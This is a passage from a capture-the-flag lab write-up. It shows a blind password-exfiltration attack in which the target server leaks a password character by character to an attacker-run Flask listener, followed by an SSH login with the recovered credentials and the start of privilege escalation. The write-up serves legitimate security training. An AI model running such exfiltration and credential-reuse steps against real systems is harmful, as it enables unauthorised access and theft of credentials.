 To start the brute-force, i need to make a GET request to the **/start** endpoint, which calls the **make_request** function with empty string.This function performs the actual brute forcing, and sends the result to **/recieve** endpoint. And when the **/recieve** endpoint recieves a request, it stores the password value in global variable and again calls **make_request**, this time with the recovered password. I also created a **/restart** endpoint, that basically jsut resends the request with current password. I did dthis becasue the server is not very stable and it might drop requests.

Sidenote: As it turns out, the password contains a special, non aplha-numeric character. This is tricky because lot of these characters, like `?,*,.` are part of regex syntax and they would break the query. Thankfully the character is safe, so i don't have to worry about it.

I run the exploit, and i have to restart it a few times, buti t seems like i got the password:
```
❯ python3 password_brute.py                                                                                                                                                                   19:03:08
 * Serving Flask app 'password_brute'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:5000
 * Running on http://192.168.236.140:5000
Press CTRL+C to quit
127.0.0.1 - - [18/Apr/2023 19:03:17] "GET /start HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:03:20] "GET /recieve?password=6 HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:03:28] "GET /recieve?password=69 HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:03:38] "GET /recieve?password=69t HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:03:46] "GET /recieve?password=69tr HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:03:55] "GET /recieve?password=69tri HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:04:04] "GET /recieve?password=69tris HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:05:10] "GET /restart HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:05:45] "GET /restart HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:05:48] "GET /recieve?password=69trisR HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:05:54] "GET /recieve?password=69trisRu HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:07:21] "GET /restart HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:08:21] "GET /restart HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:08:24] "GET /recieve?password=69trisRul HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:09:33] "GET /restart HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:10:04] "GET /restart HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:10:07] "GET /recieve?password=69trisRule HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:10:13] "GET /recieve?password=69trisRulez HTTP/1.1" 200 -
10.10.11.209 - - [18/Apr/2023 19:10:22] "GET /recieve?password=69trisRulez! HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:13:46] "GET /restart HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:15:44] "GET /restart HTTP/1.1" 200 -
127.0.0.1 - - [18/Apr/2023 19:16:17] "GET /restart HTTP/1.1" 200 -
```
So, it seems like `69trisRulez!` is the final password. First thing that comes to mind is trying to login via SSH. I can guess the username is `tristan`. I attemp the SSSH login, and it works!
```
❯ ssh tristan@mailroom.htb
tristan@mailroom.htb's password:
...
You have mail.
Last login: Tue Apr 18 17:01:10 2023 from 10.10.14.198
tristan@mailroom:~$
```
## Privilege escalation
Once i am logged in, i see there is another user, `matthew`:
```
ls /home/
matthew  tristan
```
And the user flag is in his home directory, so i need to gain access to his account:
```
ls /home/matthew/
```